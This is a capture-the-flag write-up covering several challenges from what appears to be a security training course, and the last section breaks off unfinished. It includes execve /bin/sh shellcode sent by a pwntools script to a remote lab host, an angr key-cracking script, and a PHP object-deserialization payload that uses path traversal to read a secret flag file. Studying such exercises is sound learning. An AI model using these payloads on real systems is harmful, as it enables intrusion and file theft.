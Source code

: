## backtoshell ![c](https://img.shields.io/badge/solved-success)
Really easy shellcode challenge, where we have a `read` of `0x200` bytes and after that every register is set to 0, then the code jumps to the buffer in which our input has been stored and executes it.

The main issue (easily bypassable) is the zeroing of the registers, also rsp, so we can't use the stack in our shellcode.

After trying some fancy reads, I realized that one of the simplest execve shellcode would be enough, the only problem was where to store the `/bin/sh` string. Without making it complex, if we put this string after the system call, we dont' care about possible errors, because we will already have our shell.

So let's write some assembly, knowing that in rax we will initially have the starting address of the buffer:

```assembly
mov rdi, rax    ; save the starting address for later
mov rax, 0x3b   ; id of the execve syscall
add rdi, 22     ; offset where /bin/sh will be (count shellcode bytes)
xor rsi, rsi    ; put rsi to 0
xor rdx, rdx    ; put rdx to 0
syscall         ; actual call
```
This is the script:

```python
from pwn import *

context.terminal = ['terminator', '-e']

r = remote("training.jinblack.it", 3001)

#input("wait")

execve = b"\x48\x89\xC7\x48\xC7\xC0\x3B\x00\x00\x00\x48\x83\xC7\x16\x48\x31\xF6\x48\x31\xD2\x0F\x05/bin/sh\x00"
#we can count 22 bytes before /bin/sh

r.send(execve)
r.interactive()
```

And this is the flag: **flag{Congratulation_you_got_aa_working_shellcode_!}**

## keycheck_baby ![c](https://img.shields.io/badge/solved-success)
After a rapid analysis we can see that it's a classic input guessing challenge. We can open it with `Ghidra`, and with a simple `Python` script we easily get the first part of the flag: flag{y0u_d4_qu33n_

Here it comes the first problem: even with Ghidra, the second input check seems unsolvable. 

For this reason I dropped the idea of understanding the code, and moved on angr to solve the challenge with symbolic execution.

With a basic script we can retrieve the flag, that is: **flag{y0u_d4_qu33n_0f_cr4ck1ngz}**

First script (classic angr):
```python
import angr
import claripy

FLAG_LEN = 31
STDIN_FD = 0

base_addr = 0x100000 # To match addresses to Ghidra , main_opts={'base_addr': base_addr}

proj = angr.Project("./keycheck_baby", main_opts={'base_addr': base_addr}) 

flag_chars = [claripy.BVS('flag_%d' % i, 8) for i in range(FLAG_LEN)]
flag = claripy.Concat( *flag_chars + [claripy.BVV(b'\n')]) # Add \n for scanf() to accept the input

state = proj.factory.full_init_state(
        args=['./keycheck_baby'],
        add_options=angr.options.unicorn,
        stdin=flag,
)

# Add constraints that all characters are printable

for k in flag_chars:
    state.solver.add(k >= ord('!'))
    state.solver.add(k <= ord('~'))


simgr = proj.factory.simulation_manager(state)
find_addr  = 0x1013f8 # SUCCESS 101471 10136a 1013f8
avoid_addr = 0x101487 # FAILURE 102058 101487 
simgr.explore(find=find_addr, avoid=avoid_addr)

if (len(simgr.found) > 0):
    for found in simgr.found:
        print(found.posix.dumps(STDIN_FD))
```

Second script (super cool):
```python
import claripy
import angr

p=angr.Project('./keycheck_baby')

simfile = angr.SimPackets('input')

st = p.factory.entry_state(stdin=simfile);
sm = p.factory.simulation_manager(st)
sm.explore(find=lambda s: b"Your input looks" in s.posix.dumps(1))
for s in sm.found:
    print(s.posix.dumps(0))
```
## lolshop ![c](https://img.shields.io/badge/solved-success)
This is a serialization challenge, and we are given the link of the website and also the source, and the hint that the flag is in `/secret/flag.txt` file path. 

First of all, let's explore the code and make a plan: we can see that there is only one method that unserializes an object, located in *State.php* called `restore($token)`.

```php
    static function restore($token) {
        return unserialize(gzuncompress(base64_decode($token)));
    }
```

After that, we can notice that the only path we can see in all these files is the one representing the products' image: if we are able to modify this, we may obtain the flag as the image of one of the products. This is located in *Products.php*.

```php
    function getPicture() {
        $path = '/var/www/assets/' . $this->picture;
        $data = base64_encode(file_get_contents($path));
        return $data;
    }

    function getPrice() {
        return $this->price;
    }

    function toDict() {
        return array(
            "id" => $this->id,
            "name" => $this->name,
            "description" => $this->description,
            "picture" => $this->getPicture(),
            "price" => $this->price
        );
    }
```

The idea is:
1. we want to trigger the `toDict()` function of a product
2. we search for every call the `restore()` method in the source code
3. after finding the right `restore()` call, we try to craft a malicius payload

We can notice that in the *cart.php* page we have:
```php
...
} else if(isset($_REQUEST['state'])) {

    $state = State::restore($_REQUEST['state']);

    $enc = json_encode($state->toDict(), JSON_PRETTY_PRINT | JSON_NUMERIC_CHECK);

    if(isset($_REQUEST['save'])) {
        $tok = $db->saveState($enc);
        if(!$tok) {
            http_response_code(400);
        } else {
            echo json_encode(array("token" => $tok));
        }
    } else {
        echo $enc;
    }

} else {
    http_response_code(400);
}
```
so we can see that we call the `restore()`, then we call the `toDict()` on the unserialized state: COOL

What if we try to unserialize a `Product` object, instead of a State object?

We will have this situation: our object will be unserialized without errors, because it's a valid one; then the `$state->toDict()` instruction will be executed, but now the method refers to `Product.toDict()`, so the `getPicture()` will be executed with a payload that WE control.

The final script is:
```python
import requests
import json

url = 'http://jinblack.it:3006/api/cart.php'

#myobj = {'state': 'eJxNkE1rxCAQhvNTxNMu5JDRfOqphz0slA00217LRA0I+xHUPYQl/72atrAHX/SZd16c6UUl6BAwGCqYeHoBpaDZBjJvvLf3G5W9aKLp7yX4ZoNk+0WZ1VR6UcdObeoCedexqhwB2gJh7BreFTCBwrZRNWOT4qCha0dWaSzNWJsGYZqAa5wg5QB/ib7h1SQY2bIs6cbYS9lc0V6+UWsXQap28RPH03D4OJPj6dyT2d31QwVPdlbnJKXlRBuvnJ1DDMjJbFV4uEhnZ5XZk6+398/DQHZQ5IQi0qjjmFSpqMVeUrn+j79tSaELVKIA8bQCZDrr+gPGZmUA'}
myobj = {'state': 'eJxNjl0KwjAQhHuWPUCa1KqwOYS9QthEXdCkJFsQxLub/jwE5mH4dmbYG14Rppz8QgJ4xm9BYxC6A3XswTIabSs/NTy6d4AKK/OcVjfo5uxDocyzcIpHKrrn6sylSc1MsuRtZxgRlOp3lUA5SH9/uYeSj2y9se1lprD/pbX9/QGaazsG'}
'''
$xxx = new Product(10,'dio','nah', '../../../secret/flag.txt', 1000);
echo base64_encode(gzcompress(serialize($xxx)));
'''
x = requests.post(url, data = myobj)

print(x.text)
```

After sending the request we get this output:

![response](./lolshop.png)

We know that the flag is encoded in base64, so with a simple conversion we obtain: **actf{welcome_to_the_new_web_0836eef79166b5dc8b}**

## positiveleak
First of all, we run checksec to see what mitigations are enabled: 64-bit ELF with Partial RELRO, Canary, NX enabled, PIE enabled.

Let's now try to play with the executable a little bit, and maybe we can discover something interesting.

We can insert or print some numbers (initially all 0s), but if we try to insert it asks us how many numbers, and then the numbers themselves. If we put any number in the first request, and then we skip the "real" insertion and look for the results, we can notice something interesting:

The first two numbers displayed are 140723217504405 and 94243136696884, that in hex correspond to `0x7ffcad641891` and `0x55b6b0af7234`. Cool, smell like memory addresses.

Let's have a better look with `Ghidra`, in order to figure out what are those numbers.

